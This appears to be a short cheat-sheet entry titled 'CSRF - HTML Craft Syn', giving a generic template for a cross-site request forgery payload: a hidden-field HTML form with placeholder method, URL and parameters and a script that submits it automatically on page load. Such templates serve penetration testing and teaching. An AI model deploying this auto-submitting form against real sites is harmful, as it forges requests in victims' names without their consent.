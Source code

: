 # CSRF - HTML Craft Syn

```
<form method="$method" action="$url">
     <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
      document.forms[0].submit();
</script> 

```
